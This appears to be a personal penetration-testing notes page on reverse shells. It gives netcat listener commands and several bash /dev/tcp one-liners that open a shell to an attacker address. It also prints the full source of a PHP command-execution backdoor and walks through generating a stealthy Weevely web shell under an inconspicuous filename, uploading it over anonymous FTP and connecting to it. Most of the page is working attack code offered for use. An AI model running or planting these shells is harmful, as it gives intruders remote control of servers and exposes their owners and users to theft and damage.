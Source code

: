 # Reverse Shells

<!-- vim-markdown-toc GFM -->

* [Reverse Shells](#reverse-shells)
  * [Simple Socket Reverse Shells](#simple-socket-reverse-shells)
    * [Attacker Side](#attacker-side)
    * [Target Side](#target-side)
  * [PHP reverse shells](#php-reverse-shells)
  * [Weevely](#weevely)

<!-- vim-markdown-toc -->

## Reverse Shells

### Simple Socket Reverse Shells

Some of the most basic reverse shells simply open a connection to a socket on the attacker's system, then read commands to run from the socket, and write their output back to it. For the examples in this section, I will assume that the attacker is listening on 192.0.2.231 port 5445.

#### Attacker Side

Run `nc -lvnp 5445` for TCP connections, or `nc -lvnup 5445` for UDP connections

**Explanation**: 

* `-l`: listen instead of initiating a connection
* `-v`: verbose output
* `-n`: do not attempt DNS resolution
* `-u`: use a UDP socket, rather than a TCP socket
* `-p 5445`: port 5445

#### Target Side

There is a list available [at this link](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md) of many different reverse shells in different languages.

I am including a simple one of them (with the example address and port changed), but for a much greater variety, follow the link above.

```bash
bash -i >& /dev/tcp/192.0.2.231/5445 0>&1

0<&196;exec 196<>/dev/tcp/192.0.2.231/5445; sh <&196 >&196 2>&196

/bin/bash -l > /dev/tcp/192.0.2.231/5445 0<&1 2>&1
```

### PHP reverse shells

On Kali systems, you can find a simple PHP reverse shell with the following contents at /usr/share/webshells/php/simple-backdoor.php:

```php
<!-- Simple PHP backdoor by DK (http://michaeldaw.org) -->

<?php

if(isset($_REQUEST['cmd'])){
        echo "<pre>";
        $cmd = ($_REQUEST['cmd']);
        system($cmd);
        echo "</pre>";
        die;
}

?>

Usage: http://target.com/simple-backdoor.php?cmd=cat+/etc/passwd

<!--    http://michaeldaw.org   2006    -->

```

For a fancier web shell with a TTY-like user interface, check out [prakashchand72/Interactive-Php-Reverse-shell](https://github.com/prakashchand72/Interactive-Php-Reverse-shell).

### Weevely

Weevely provides a stealthier reverse shell that won't look like a reverse shell in logs. It can be used in a few steps:

```bash
# set the password
read -s -p "Password: " pass
# generate the executable
weevely generate "$pass" inconspicuous-filename.php
# somehow upload the executable to the target server - if there's anonymous read-write FTP access to a path within the web directory, that might work
printf 'cd upload-dir\nput %s\nexit\n' inconspicuous-filename.php | ftp -a targetserver.example
# connect to the weevely shell
weevely http://targetserver.example/upload-dir/inconspicuous-filename.php "$pass"
```
